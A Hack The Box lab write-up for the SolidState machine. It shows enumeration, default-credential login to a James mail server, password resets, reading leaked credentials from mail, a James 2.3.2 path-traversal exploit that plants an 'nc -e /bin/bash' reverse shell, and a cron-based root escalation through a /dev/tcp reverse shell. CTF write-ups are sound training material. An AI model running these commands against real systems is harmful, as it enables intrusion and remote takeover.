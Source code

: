 ##    Hack The Box       SolidState (10.129.58.24)



### Enumeration 


First I'll start with an enumeration and we notice ports 22, 25, 119,80, 110, 4555 open on SolidState.

	PORT     STATE SERVICE REASON         VERSION
	22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
	| ssh-hostkey: 
	|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
	| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCp5WdwlckuF4slNUO29xOk/Yl/cnXT/p6qwezI0ye+4iRSyor8lhyAEku/yz8KJXtA+ALhL7HwYbD3hDUxDkFw90V1Omdedbk7SxUVBPK2CiDpvXq1+r5fVw26WpTCdawGKkaOMYoSWvliBsbwMLJEUwVbZ/GZ1SUEswpYkyZeiSC1qk72L6CiZ9/5za4MTZw8Cq0akT7G+mX7Qgc+5eOEGcqZt3cBtWzKjHyOZJAEUtwXAHly29KtrPUddXEIF0qJUxKXArEDvsp7OkuQ0fktXXkZuyN/GRFeu3im7uQVuDgiXFKbEfmoQAsvLrR8YiKFUG6QBdI9awwmTkLFbS1Z
	|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
	| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBISyhm1hXZNQl3cslogs5LKqgWEozfjs3S3aPy4k3riFb6UYu6Q1QsxIEOGBSPAWEkevVz1msTrRRyvHPiUQ+eE=
	|   256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
	|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMKbFbK3MJqjMh9oEw/2OVe0isA7e3ruHz5fhUP4cVgY
	25/tcp   open  smtp?   syn-ack ttl 63
	|_smtp-commands: Couldn't establish connection on port 25
	80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.25 ((Debian))
	|_http-title: Home - Solid State Security
	| http-methods: 
	|_  Supported Methods: HEAD GET POST OPTIONS
	110/tcp  open  pop3?   syn-ack ttl 63
	119/tcp  open  nntp?   syn-ack ttl 63
	4555/tcp open  rsip?   syn-ack ttl 63
	Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
	OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
	Aggressive OS guesses: Linux 3.12 (96%), Linux 3.13 (96%), Linux 3.16 (96%), Linux 3.18 (96%), Linux 3.2 - 4.9 (96%), Linux 3.8 - 3.11 (96%), Linux 4.4 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
	No exact OS matches for host (test conditions non-ideal).
	TCP/IP fingerprint:
	SCAN(V=7.94SVN%E=4%D=10/8%OT=22%CT=%CU=32334%PV=Y%DS=2%DC=T%G=N%TM=6705ABBC%P=aarch64-unknown-linux-gnu)
	SEQ(SP=103%GCD=1%ISR=10D%TI=Z%CI=I%II=I%TS=8)
	OPS(O1=M53CST11NW7%O2=M53CST11NW7%O3=M53CNNT11NW7%O4=M53CST11NW7%O5=M53CST11NW7%O6=M53CST11)
	WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)
	ECN(R=Y%DF=Y%T=40%W=7210%O=M53CNNSNW7%CC=Y%Q=)
	T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
	T2(R=N)
	T3(R=N)
	T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
	T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
	U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
	IE(R=Y%DFI=N%T=40%CD=S)

	Uptime guess: 0.021 days (since Tue Oct  8 16:31:27 2024)
	Network Distance: 2 hops
	TCP Sequence Prediction: Difficulty=259 (Good luck!)
	IP ID Sequence Generation: All zeros
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	TRACEROUTE (using port 443/tcp)
	HOP RTT      ADDRESS
	1   60.89 ms 10.10.14.1
	2   62.03 ms 10.129.58.24

By using netcat we can determine that JAMES SMTP Server 2.3.2 is running on port 25.

![james](/SolidState/images/james.png)


Using netcat we are able to login to James Remote Management Tool with the user pass combo root:root.

![james](/SolidState/images/login.png) 

We have 5 users:

1. james
2. thomas
3. john
4. mindy
5. mailadmin

![james](/SolidState/images/users.png) 

- Logging into James Server Administration on port 4555 with nc we can reset the user's passwords. I reset all their passwords to 'griffin3' and I also added a user 'jesta' and set his passed to 'griffin'3 as well. 


![james](/SolidState/images/password.png) 


![james](/SolidState/images/password-2.png) 


Browsing to SolidState's webpage i can see that their email accounts are using the solid-state-security.com domain. With this information we can use a tool called smtp-user-enum to verify email accounts and check to see if any of the users have emails that we might be able to read. I couldn't get smtp-users-enum to work. SolidState takes a long time to query information so that might be why. I'll go ahead and try to enumerate emails in pop3 and that's hosted on port 110 so we can just telnet info port 110

### Helpful POP3 commands

1. USER [username] - 1st login command
2. PASS [password] - 2nd login command - Remember I set everyone's password to griffin3
3. QUIT - Logs out
4. STAT - Returns total number of messages and total size
5. LIST - Lists all messages
6. RETR [message]
7. DELE [message]
8. NOOP The POP3 server does nothing, it merely replies with a positive response

We do see that mindy has a couple of mails. Let's try reading them.

	RETR 1
	+OK Message follows
	Return-Path: <mailadmin@localhost>
	Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
	MIME-Version: 1.0
	Content-Type: text/plain; charset=us-ascii
	Content-Transfer-Encoding: 7bit
	Delivered-To: mindy@localhost
	Received: from 192.168.11.142 ([192.168.11.142])
		     by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
		     for <mindy@localhost>;
		     Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
	Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
	From: mailadmin@localhost
	Subject: Welcome

	Dear Mindy,
	Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

	We are looking forward to you joining our team and your success at Solid State Security. 

	Respectfully,
	James


	RETR 2
	+OK Message follows
	Return-Path: <mailadmin@localhost>
	Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
	MIME-Version: 1.0
	Content-Type: text/plain; charset=us-ascii
	Content-Transfer-Encoding: 7bit
	Delivered-To: mindy@localhost
	Received: from 192.168.11.142 ([192.168.11.142])
		     by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
		     for <mindy@localhost>;
		     Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
	Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
	From: mailadmin@localhost
	Subject: Your Access

	Dear Mindy,


	Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
	Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

	username: mindy
	pass: P@55W0rd1!2@

	Respectfully,
	James


### Foothold

#### SSH Creds for minds

- username > mindy
- Password > P@55W0rd1!2@

1. First I'll use netcat to connect to port 4555 and add a user per the following python [exploit](https://www.exploit-db.com/exploits/35513).

![james](/SolidState/images/part-1.png) 

2. I added the user jesta on James' Remote Administration Tool. Next per the 2nd part of the exploit we'll use telnet to connect to port 110 and send an email to /etc/bash_completion.d and add a reverse shell


![james](/SolidState/images/part-2.png) 

3. I'll let up at netcat listener on my host on port 443

4. I'll connect via SSH to mindy to trigger the shell

- sshpass -p 'P@55W0rd1!2@' ssh mindy@10.129.8.209

5. And I get a shell connection.

![james](/SolidState/images/format.png) 


I read a page about exploiting James Server and I think if I run the following commands I can exploit the server and get a shell.



nc 10.129.58.24 4555

adduser ../../../../../../../../etc/bash_completion.d 0xdf0xdf
User ../../../../../../../../etc/bash_completion.d added
quit

![james](/SolidState/images/add-user.png) 


telnet 10.129.58.24 25

EHLO jesta

MAIL FROM: <'jesta@10.10.14.240>

RCPT TO: <../../../../../../../../etc/bash_completion.d>

DATA

FROM: jesta@10.10.14.240
'
/bin/nc -e /bin/bash 10.10.14.240 443
.

quit

![james](/SolidState/images/mail.png) 

### Privilege escalation

I notice there's an all user's 777 read, write and execute file /opt/tmp that get executed by root every 3 minutes as a chron job. I'll write a reverse shell to the python file.


1. echo "os.system('bash -c \"bash -i >& /dev/tcp/10.10.14.240/4444 0>&1\"')" >> tmp.py 

2. I'll start a listener on my attack host and wait for the cron job to run.


![james](/SolidState/images/root.png) 

![james](/SolidState/images/root-2.png) 

And we can login as the root user now. 
